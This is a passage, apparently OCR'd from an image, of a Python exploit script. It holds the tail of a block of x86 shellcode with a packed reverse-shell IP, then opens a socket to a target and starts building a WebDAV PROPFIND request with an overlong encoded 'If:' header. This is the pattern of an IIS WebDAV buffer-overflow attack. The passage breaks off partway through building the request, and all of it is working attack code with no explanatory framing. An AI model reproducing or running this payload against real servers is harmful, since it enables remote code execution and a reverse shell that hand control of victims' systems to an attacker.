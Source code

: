 ```python
'\xFF\x83\xBD\xD4\xFA\xFF\xFF\x44\x73\x10\x8B\x85\xD4\xFA\xFF\xFF'+\
'\x80\xA4\x05\x64\xFA\xFF\xFF\x00\xEB\xDA\xC7\x85\x64\xFA\xFF\xFF'+\
'\x44\x00\x00\x00\xC7\x85\x90\xFA\xFF\xFF\x01\x01\x00\x00\x8B\x85'+\
'\xD4\xFC\xFF\xFF\x89\x85\xA4\xFA\xFF\xFF\x8B\x85\xA4\xFA\xFF\xFF'+\
'\x89\x85\xA0\xFA\xFF\xFF\x8B\x85\xA0\xFA\xFF\xFF\x89\x85\x9C\xFA'+\
'\xFF\xFF\x8D\x85\x20\xFD\xFF\xFF\x50\x8D\x85\x64\xFA\xFF\xFF\x50'+\
'\x6A\x00\x6A\x00\x6A\x00\x6A\x01\x6A\x00\x6A\x00\x8D\x85\xE8\xFA'+\
'\xFF\xFF\x50\x6A\x00\xFF\x95\x34\xFA\xFF\xFF\x6A\x01\xFF\x95\x38'+\
'\xFA\xFF\xFF\xE8\xBD\xFB\xFF\xFF'+struct.pack('16s',reverseip)+'\x5F\x5E\x5B\xC9\xC3\x64\xA1\x18'+\
'\x00\x00\x00\x8B\x40\x30\x33\xC9\x8B\x40\x0C\x8B\x40\x1C\x8B\x00'+\
'\x8B\x50\x20\x66\x83\x7A\x10\x2E\x74\x06\x41\x83\xF9\x02\x7C\xEE'+\
'\x8B\x40\x08\xC3\x55\x8B\xEC\x53\x56\x57\x8B\x7D\x08\x83\x65\x08'+\
'\x00\x8B\x47\x3C\x8B\x44\x38\x78\x03\xC7\x8B\x70\x20\x03\xF7\x83'+\
'\x78\x18\x00\x76\x2A\x8B\x0E\x03\xCF\x33\xDB\x8A\x11\x84\xD2\x74'+\
'\x0B\x6B\xDB\x21\x0F\xBE\xD2\x03\xDA\x41\xEB\xEF\x3B\x5D\x0C\x74'+\
'\x15\x83\xC6\x04\xFF\x45\x08\x8B\x4D\x08\x3B\x48\x18\x72\xD6\x33'+\
'\xC0\x5F\x5E\x5B\x5D\xC3\x8B\x48\x24\x8B\x55\x08\x8B\x40\x1C\x8D'+\
'\x0C\x51\x0F\xB7\x0C\x39\x8D\x04\x88\x8B\x04\x38\x03\xC7\xEB\xE1'
shellcodelen = 1744

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
sock.connect((targetip,targetport))
pay='PROPFIND / HTTP/1.1\r\nHost: localhost\r\nContent-Length: %d\r\n'%shellcodelen
pay+='If: <http://localhost/aaaaaaa'
pay+='\xe6\xbd\xa8\xe7\xa1\xa3\xe7\x9d\xa1\xe7\x84\xb3\xe6\xa4\xb6\xe4\x9d\xb2\xe7\xa8\xb9\xe4\xad\xb7\xe4\xbd\xb0\xe7\x95\x93\xe7\xa9\x8f\xe4\xa1\xa8\xe5\x99\xa3\xe6\xb5\x94\xe6\xa1\x85\xe3\xa5\x93\xe5\x81\xac\xe5\x95\xa7\xe6\x9d\xa3\xe3\x8d\xa4\xe4\x98\xb0\xe7\xa1\x85\xe6\xa5\x92\xe5\x90\xb1\xe4\xb1\x98\xe6\xa9\x91\xe7\x89\x81\xe4\x88\xb1\xe7\x80\xb5\xe5\xa1\x90\xe3\x99\xa4\xe6\xb1\x87\xe3\x94\xb9\xe5\x91\xaa\xe5\x80\xb4\xe5\x91\x83\xe7\x9d\x92\xe5\x81\xa1\xe3\x88\xb2\xe6\xb5\x8b\xe6\xb0\xb4\xe3\x89\x87\xe6\x89\x81\xe3\x9d\x8d\xe5\x85\xa1\xe5\xa1\xa2\xe4\x9d\xb3\xe5\x89\x90\xe3\x99\xb0\xe7\x95\x84\xe6\xa1\xaa\xe3\x8d\xb4\xe4\xb9\x8a\xe7\xa1\xab\xe4\xa5\xb6\xe4\xb9\xb3\xe4\xb1\xaa\xe5\x9d\xba\xe6\xbd\xb1\xe5\xa1\x8a\xe3\x88\xb0\xe3\x9d\xae\xe4\xad\x89\xe5\x89\x8d\xe4\xa1\xa3\xe6\xbd\x8c\xe7\x95\x96\xe7\x95\xb5\xe6\x99\xaf\xe7\x99\xa8\xe4\x91\x8d\xe5\x81\xb0\xe7\xa8\xb6\xe6\x89\x8b\xe6\x95\x97\xe7\x95\x90\xe6\xa9\xb2\xe7\xa9\xab\xe7\x9d\xa2\xe7\x99\x98\xe6\x89\x88\xe6\x94\xb1\xe3\x81\x94\xe6\xb1\xb9\xe5\x81\x8a\xe5\x91\xa2\xe5\x80\xb3\xe3\x95\xb7\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac'
pay+='>'
pay+=' (Not <locktoken:write1>) <http://localhost/bbbbbbb'
```